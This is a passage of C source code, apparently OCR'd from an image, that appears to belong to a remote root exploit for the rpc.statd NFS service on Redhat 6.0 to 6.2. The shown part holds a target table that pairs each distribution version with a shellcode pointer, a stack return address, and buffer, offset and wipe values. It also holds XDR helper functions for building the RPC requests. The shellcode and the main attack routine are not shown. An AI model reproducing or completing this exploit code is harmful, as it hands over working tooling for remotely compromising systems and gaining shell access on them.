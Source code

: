     char *desc;

    char *code;

    u_long bufpos;

    int buflen;

    int offset;

    int wipe;

};

 

struct type types[] =

{

    {0, "Redhat 6.2 (nfs-utils-0.1.6-2)", shellcode, 0xbffff314, 1024, 600,

9},

    {1, "Redhat 6.1 (knfsd-1.4.7-7)", shellcode, 0xbffff314, 1024, 600, 9},

    {2, "Redhat 6.0 (knfsd-1.2.2-4)", shellcode, 0xbffff314, 1024, 600, 9},

    {0, NULL, NULL, 0, 0, 0, 0}

};

 

bool_t

xdr_sm_name(XDR *xdrs, struct sm_name *objp)

{

    if (!xdr_string(xdrs, &objp->mon_name, SM_MAXSTRLEN))

        return (FALSE);

    return (TRUE);

}

 

bool_t

xdr_res(XDR *xdrs, enum res *objp)

{

    if (!xdr_enum(xdrs, (enum_t *)objp))

        return (FALSE);

    return (TRUE);

}

 

bool_t
